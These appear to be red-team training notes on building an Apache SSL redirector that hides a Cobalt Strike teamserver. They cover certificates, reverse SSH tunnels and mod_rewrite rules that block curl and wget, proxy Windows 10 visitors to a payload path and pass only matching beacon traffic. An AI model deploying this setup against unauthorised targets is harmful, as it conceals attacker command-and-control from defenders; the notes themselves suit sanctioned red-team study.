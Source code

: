 - Apache - SSL redirector setup
	```
	sudo apt install apache2
	sudo a2enmod ssl rewrite proxy proxy_http
	cd /etc/apache2/sites-enabled; sudo rm 000-default.conf
	sudo ln -s ../sites-available/default-ssl.conf .
	sudo systemctl restart apache2
	```
	- Generate fresh SSL certificate
		- `openssl req -new -newkey rsa:4096 -x509 -sha256 -days 365 -nodes -out public.crt -keyout private.key`
		- Fields are arbitrary, but the Common Name should be the public IP or fully qualified domain name
		- Get certificates signed by trusted CA - generate a certificate signing request (CSR)
			- `openssl req -new -key private.key -out acme.csr`
		- Use certbot to get it signed - note that public IP is logged at thi stage
			- `certbot certonly -d acmecorp.uk --apache --register-unsafely-without-email --agree-tos`
		- Copy signed certs into appropriate directories
			- `cp /etc/letsencrypt/archive/acmecorp.uk/fullchain.pem /etc/ssl/certs`
			- `cp /etc/letsencrypt/archive/acmecorp.uk/privkey.pem /etc/ssl/private`
			- Remember to update SSLCertificateFile and SSLCertificateKeyFile in `/etc/apache2/sites-available/default-ssl.conf`
		- TIP: add this line to default-ssl to force Apache to ignore Cobalt Strike's self-signed ssl certificate on the HTTPS listener
			- `SSLProxyCheckPeerCN off`
		- Restart Apache
			- `sudo systemctl restart apache2`
			
- Teamserver config - import public certificate and private key from certbot into your Cobalt Strike Java KeyStore
	- Combine into PKCS12
		- `openssl pkcs12 -inkey private.key -in public.crt -export -out acme.pkcs12`
	- Convert into Java KeyStore using keytool
		- `keytool -importkeystore -srckeystore acme.pkcs12 -srcstoretype pkcs12 -destkeystore acme.store`
	- Reference KeyStore in a malleable C2 profile
	```
	https-certificate {
	     set keystore "acme.store";
	     set password "password";
	}
	```
	- KeyStore should be in the same directory as Cobalt Strike teamserver
		- `sudo ./teamserver 10.10.0.69 Passw0rd! c2-profiles/normal/webbug_getonly.profile`

- Generate SSH tunnel between teamserver and redirector (manual)
	- `ssh -N -R 8443:localhost:443 -i ssh-user ssh-user@<redirector IP>`
	- Verify listening port on redirector
		- `sudo ss -ltnp`
		- `curl -v -k https://localhost:8443`
			- Check CS web log to verify
	- Verify the web server port is not reachable directly
		- `curl -v -k https://<teamserver listener IP>`

- Generate SSH tunnel between teamserver and redirector (autossh)
	- `vim ~/.ssh/config`
	```
	Host                 redirector-1
	HostName             10.10.5.39
	User                 ssh-user
	Port                 22
	IdentityFile         /home/ubuntu/ssh-user
	RemoteForward        8443 localhost:443
	ServerAliveInterval  30
	ServerAliveCountMax  3
	```
	- `autossh -M 0 -f -N redirector-1`

- Configure .htaccess
	- `vim /etc/apache2/sites-enabled/default-ssl.conf
		- Under </VirtualHost>, add:
	```
	<Directory /var/www/html/>
		Options Indexes FollowSymLinks MultiViews
		AllowOverride All
		Require all granted
	</Directory>
	```
	- Underneath `SSLEngine on`, add `SSLProxyEngine on`
	- Restart Apache
		- `sudo systemctl restart apache2`
	- Overwrite index.html with content (ideally that looks nice and semi-legit)
		- `echo "Hello from Apache" | sudo tee /var/www/html/index.html`
	- Create a new .htaccess file in the Apache web root (/var/www/html) and enter the following:
		```
		RewriteEngine on
		RewriteRule ^test$ index.html [NC]
		```
		- Processed top to bottom
		- Watch out for infinite loops
	- NOTE: RewriteRule is a simple redirect; first param is a regex and second is a redirection target (can be external domain)
	- `[NC]` means to ignore case
		- Multiple flags can be used with the syntax: `[Flag1,Flag2,FlagN]`
		```
		    [L] - Last.  Tells mod_rewrite to stop processing further rules.
		    [NE] - No Escape.  Don't encode special characters (e.g. & and ?) to their hex values.
		    [P] - Proxy.  Handle the request with mod_proxy.
		    [R] - Redirect.  Send a redirect code in response.
		    [S] - Skip.  Skip the next N number of rules.
		    [T] - Type.  Sets the MIME type of the response.
		```
	- Test:
		- `curl -k https://localhost/test`
	- RewriteCond can be combined with RewriteRule to only redirect under certain conditions: `TestString Condition [Flags]`
		- Test string can be static but also variables, such as `%{REMOTE_ADDR}`, `%{HTTP_COOKIE}`, `${HTTP_USER_AGENT}`, `%{REQUEST_URI}`
		- Multiple conditions can be defined, AND by default but `[OR]` flag can be specified
		- https://httpd.apache.org/docs/2.4/mod/mod_rewrite.html
	- User-Agent redirect
		- Blocking curl and wget:
		```
		RewriteEngine on
		
		RewriteCond %{HTTP_USER_AGENT} curl|wget [NC]
		RewriteRule .* - [F]
		```
		- Redirecting based on Windows 10 devices:
		```
		RewriteCond %{HTTP_USER_AGENT} "Windows NT 10.0" [NC]
		RewriteRule .* https://localhost:8443/win-payload [P]
		```
		- `[P]` proxies request to the backend in a way that's transparent to the requestor; looks like it came from Apache, even if it came from Cobalt Strike
	- Cookie redirect
		- Example:
		```
		RewriteEngine on
		
		RewriteCond %{HTTP_COOKIE} TestCookie [NC]
		RewriteRule .* https://localhost:8443/cookie-test [P]
		```
	- Request URI and Query String redirect
		- For the `webbug_getonly` malleable C2 profile using the URI
		```
		RewriteEngine on
		
		RewriteCond %{REQUEST_URI} win-payload [NC]
		RewriteRule .* https://localhost:8443%{REQUEST_URI} [P]
		
		RewriteCond %{REQUEST_URI} __utm.gif [NC]
		RewriteRule .* https://localhost:8443%{REQUEST_URI} [P]
		```
		- With the query string
		```
		RewriteEngine on
		
		RewriteCond %{REQUEST_URI} win-payload [NC]
		RewriteRule .* https://localhost:8443%{REQUEST_URI} [P]
		
		RewriteCond %{REQUEST_URI} __utm.gif [NC]
		RewriteCond %{QUERY_STRING} utmac=UA-2202604-2&utmcn=1&utmcs=ISO-8859-1&utmsr=1280x1024&utmsc=32-bit&utmul=en-US&utmcc=__utma [NC,OR]
		RewriteCond %{QUERY_STRING} utmac=UA-220(.*)-2&utmcn=1&utmcs=ISO-8859-1&utmsr=1280x1024&utmsc=32-bit&utmul=en-US&utmcc=__utma [NC]                                                                       
		RewriteRule .* https://localhost:8443%{REQUEST_URI} [P]
		
		RewriteRule .* - [F]
		```

- cs2modrewrite - automatically generate mod_rewrite rules
	- Must add explicit user agent in malleable c2 profile (global option)
		- `set useragent "Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko";`
	- Run the script
		- `python3 cs2modrewrite.py -i <path/to/malleable/c2> -c https://teamserver:8443 -r https://www.invalidtraffic.com -o <output-file>`
	- Does the heavy lifting, but might need a little tweaking

